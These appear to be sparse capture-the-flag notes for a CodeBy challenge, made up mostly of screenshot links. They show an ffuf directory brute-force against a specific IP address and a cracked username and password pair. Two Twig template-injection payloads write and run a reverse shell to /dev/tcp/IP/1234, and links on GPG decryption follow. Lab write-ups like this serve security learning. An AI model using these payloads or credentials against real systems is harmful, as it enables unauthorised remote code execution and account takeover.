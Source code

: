 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1aea425a-35d0-48f9-b350-86b23d0d7b66)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49f94d47-ff23-42bc-8fe2-516a20ed51a9)






